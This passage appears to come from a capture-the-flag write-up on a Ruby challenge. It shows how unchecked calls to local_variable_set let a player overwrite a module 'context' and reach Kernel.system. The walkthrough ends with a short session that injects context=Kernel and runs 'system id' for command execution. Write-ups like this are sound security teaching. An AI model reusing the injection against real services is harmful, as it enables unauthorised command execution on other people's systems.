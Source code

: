 ```ruby
options.local_variable_set(option, value)
```

is what is the problem! Why? Hm... how do you think the current module is set? You guessed it - via the *local_variable_set* function!

We can see the relevant part here:

```ruby
def switch_module(module_name)
  if VALID_MODULES.include?(module_name)
    ROOT_MODULE.local_variable_set :context, module_name
  else
    log "Invalid Module: #{module_name}"

    CommonCommands.available_modules
  end
end
```

Once the module is switched, the function we want to call is fetched via `get_singleton_method`:

```ruby
command = Kernel.const_get(context).singleton_method(command_name)
```

and called with our arguments:

```ruby
# (...)
  command.call(parameter, options)
when parameter
  command.call(parameter)
else
  command.call
end
```

So, let's write down what we know:
- we have the `update` function that gets arguments
- once arguments are parsed, each argument is set via `local_variable_set`
- we can pass any arguments we want
- the `context` set with `local_variable_set` is what determines where the function is called from
- we control what function is executed

Hence: we can call any function we want from any module we imagine.

Let's check this with the `update` command and `Kernel.system`:

```
> switch_module FirmwareCommands

> update test context=Kernel checksum=555 password=lol
Checksum Invalid or Password incorrect! Can't update Firmware.

> system id
uid=1000(ctf) gid=1000(ctf)

>
```
